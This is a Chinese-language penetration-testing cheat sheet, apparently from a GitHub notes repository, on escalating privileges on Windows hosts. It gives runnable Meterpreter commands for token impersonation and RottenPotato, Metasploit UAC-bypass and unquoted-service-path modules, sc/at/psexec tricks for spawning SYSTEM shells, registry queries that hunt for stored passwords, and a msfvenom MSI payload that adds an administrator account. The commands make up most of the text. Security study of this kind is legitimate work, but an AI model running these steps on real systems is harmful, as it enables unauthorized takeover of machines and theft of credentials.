









1.令牌窃取

适用版本：

<=win2008

令牌：

描述进程或者线程安全上下文的一个对象。不同的用户登录计算机后，都会生成一个AccessToken，这个Token在用户创建进程或者线程时会被使用，不断的拷贝，这也就解释了A用户创建一个进程而该进程没有B用户的权限。一般用户双击运行一个进程都会拷贝explorer.exe的Access token。访问令牌分为：

* 授权令牌(Delegation token): 交互式会话登录(例：本地用户登录、用户桌面等)
* 模拟令牌(Impersonation token): 非交互式登录(例：net use 访问共享文件)

两种token只有在系统重启后才会清除；授权令牌在用户注销后，该令牌会变为模拟令牌依旧有效。

**当前系统中的某个进程或线程能访问到什么样的系统资源，完全取决于你当前进程是拿着谁的令牌。**

默认情况下，我们列举令牌，只能列举出当前用户和比当前用户权限更低用户的令牌。令牌的数量取决于当前shell的访问级别，如果当前的shell是administrator或者是system，我们就可以看到系统中的所有的令牌。

MSF

首先获取一个session

	meterpreter > use incognito
	meterpreter > list_tokens -u
	meterpreter > impersonate_token LEE-PC\\Administrator

[使用incognito劫持身份&psexec调用远程cmd](https://blog.csdn.net/weixin_45612728/article/details/122700067)

2.烂土豆提权

一般烂土豆需要配合令牌窃取进行提权。

(据说用烂土豆配合本地用户提权是成功不了的，必须是web权限或数据库权限。因为烂土豆要有SeImpersonate权限，普通用户一般没有这个权限。一个具有SeImpersonatePrivilege权限的服务进程，可以模拟任何一个连接它的客户端的token)



单纯令牌窃取：WEB权限或本地权限

配合烂土豆提权：WEB权限或数据库权限

提权原理：

欺骗 “NT AUTHORITY\SYSTEM” 账户通过NTLM认证到我们控制的TCP终端。

对这个认证过程使用中间人攻击(NTLM重放)，为 “NT AUTHORITY\SYSTEM” 账户本地协商一个安全令牌。这个过程是通过一系列的Windows API调用实现的。模仿这个令牌，只有具有 SeImpersonatePrivilege (模仿安全令牌权限)的账户才能去模仿别人的令牌。一般大多数的服务型账户(IIS、MSSQL等)有这个权限，大多数用户级的账户没有这个权限。

所以，一般从web拿到的webshell都是IIS服务器权限，是具有这个模仿权限的。经有人测试结论，用户级账户一定概率成功(非100%失败)，用菜刀(IIS服务器权限)反弹meterpreter就会成功。

MSF

	meterpreter > upload /root/Rottenpotato/rottenpotato.exe
	meterpreter > excute -HC -f rottenpotato.exe
	meterpreter > use incognito
	meterpreter > list_tokens -u

发现令牌列表里存在system的令牌，再用system的令牌进行提权。

烂土豆版本:

	https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-075/potato.exe
	https://github.com/breenmachine/RottenPotatoNG/blob/master/RottenPotatoEXE/x64/Release/MSFRottenPotato.exe
	https://github.com/foxglovesec/RottenPotato

3.UAC bypass

它是Windows的一个安全功能，它支持防止对操作系统进行未经授权的修改，UAC确保仅在管理员授权的情况下进行某些更改。如果管理员不允许更改，则不会执行这些更改，并且Windows系统保持不变。


MSF

	exploit/windows/local/ask  # 弹出UAC确认窗口，点击后获得system权限
	exploit/windows/local/bypassuac
	exploit/windows/local/bypassuac_injection
	exploit/windows/local/bypassuac_fodhelper
	exploit/windows/local/bypassuac_eventvwr
	exploit/windows/local/bypassuac_comhijack


[使用Metasploit绕过UAC的多种方法](https://www.cnblogs.com/backlion/p/10552137.html)

[UACMe](https://github.com/hfiref0x/UACME)

4.at

适用版本：

Windows Server 2000/2003 、winxp/win7 等

at是winxp中内置的命令，它默认以system权限运行的，进行在指定计算机上的计划任务管理工作。所以可以用at进行提权。

	at "时间" /interactive cmd

可以看到以system权限启动了calc。



可以看到在window7 因为安全增强功能已经没有交互式system cmd了。

5.sc

sc 是用于与服务控制管理器和服务进行通信的命令行程序。通俗理解就是sc可以启动一个服务。

使用版本：

winxp/7/8/10+ win03/08/12/16+

	sc Create SuperCMD binPath= "cmd /K start" type= own type= interact

(注意空格)

	sc start SuperCMD



弹出一个交互式服务检测窗口，点击"查看消息"：



6.psexec

PsExec的基本原理是：

通过管道在远程目标机器上创建一个psexec服务，并在本地磁盘中生成一个名为PSEXESVC的二进制文件，然后通过psexec服务运行命令，运行结束后删除任务。

利用条件：

445端口开放，且管理员权限

	PsExec64.exe -s -i cmd   # -i 非当前窗口， 不加-i 在当前窗口进入system



支持本地提权，远程提权。

适用版本：

Windows Server 2008 及更高版本。

https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec

7.可信任服务路径漏洞

如果一个服务的可执行文件的路径没有被双引号引起来且包含空格，那么这个服务就是有漏洞的。（查找除了```C:\Windows\``` 启动路径没有双引号的服务），实际利用还需要对攻击路径具有写权限(用于上传可执行文件)。

	wmic service get name,displayname,pathname,startmode|findstr /i "Auto"|findstr /i /v "C:\Windows\\"|findstr /i /v """



例如，此路径即是一个存在漏洞的配置：

```C:\Program Files\Lenovo\Fingerprint Manager Pro\OmniServ.exe```


windows命令解释程序可能遇到名称中的空格，它将尝试以下方式运行可执行文件(实际利用还需要对攻击路径具有写权限，用于上传可执行文件)：

	C:\Program.exe
	C:\Program Files\Lenovo\Fingerprint.exe
	C:\Program Files\Lenovo\Fingerprint Manager.exe
	C:\Program Files\Lenovo\Fingerprint Manager Pro\OmniServ.exe

MSF

	exploit/windows/local/unquoted_service_path

正常接收到会话后，不就就会自动断开连接，需要开启命令自动迁移进程：

	set AutoRunScript migrate -f

[Windows错误系统配置提权之Trusted Service Paths (可信任服务路径) 漏洞 (一)](https://blog.csdn.net/qq_44159028/article/details/123462876)

8.不安全服务权限配合计划任务schtasks或SC命令利用

如果攻击者对以高权限运行的任务所在的目录具有写权限，就可以覆盖原来的服务路径，启动恶意程序。(一般用来administrator提权到system，因为普通用户用sc修改服务路径会没有权限，导致不能用该方法提权。)

[AccessChk](https://docs.microsoft.com/zh-cn/sysinternals/downloads/accesschk)

检查 administrators组具有哪些服务的权限：

	accesschk.exe -uwcqv "administrators" *  

修改目标服务的路径：

	sc config "target服务名" binpath= "C:\evil.exe"
	sc start target服务名    # 在msf监听，启动该服务，可以接收到我们的shell


也可以用schtasks，参考：

http://www.360doc.com/content/22/0516/08/67252277_1031561232.shtml 第9点。

9.Unattached Installs （自动安装）(实际利用非常罕见)

自动安装允许程序在不需要管理员关注下自动安装。这种解决方案用于在拥有较多雇员和时间紧缺的较大型组织中部署程序。如果管理员没有进行清理的话，会有一些文件残存在系统上。有些文件中包含部署操作系统时使用的凭据信息，这些信息可以帮助我们提权。

查询注册表，例如password字符串：

	reg query HKLM /f password /t REG_SZ /s
	reg query HKCU /f password /t REG_SZ /s

MSF



10.AlwaysInstallElevated

AlwaysInstallElevated 是一种运行非管理用户以SYSTEM权限运行Microsoft Windows 安装程序包 (.MSI文件)的设置。默认情况下禁用此设置，需系统管理员手动启用。

可以查询注册表项：

	reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
	reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

如果不存在漏洞，会提示不存在key或value



如果存在，会输出：



MSF

使用msfvenom生成msi文件，进行提权：

	msfvenom -p windows/adduser USER=rottenadmin PASS=Passw0rd@123 -f msi-nouac -o rotten.msi

windows	

	msiexec /quiet /qn /i C:\**\rotten.msi

	#/quiet 安装过程中禁止向用户发送消息  
	#/qn 不使用GUI
	#/i 安装程序

MSF

	exploit/windows/local/always_install_elevated

11.dll劫持提权

详见目录 [note\pentest\持久化\DLL劫持](https://github.com/leezp/note/tree/master/pentest/%E6%8C%81%E4%B9%85%E5%8C%96/DLL%E5%8A%AB%E6%8C%81)


## 后记

1.利用漏洞进行本地提权：

[MS16-075(RottenPotato)(sqlserver/IIS 通杀；适用于本地用户，非域用户)](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075)

[CVE-2020-0796](https://cloud.tencent.com/developer/article/1688166)

https://github.com/danigargu/CVE-2020-0796   

[Windows操作系统Win32k的内核提权漏洞 CVE-2018-8120](https://www.cnblogs.com/-mo-/p/11404598.html)

CVE-2022-24481 见附件(目前效果非常好)

如果是域环境，还有经典的MS08-067/MS14-086等漏洞利用。


2.手工查找补丁，对比补丁提权

	systeminfo

	wmic qfe get Description,HotFixID,InstalledOn

	MSF后渗透扫描：

	post/windows/gather/enum_patches

3.windows 需要system权限的操作：

提示没有权限删除或修改的注册表，强制结束恶意应用程序进程，提示没有权限删除的文件或文件夹。


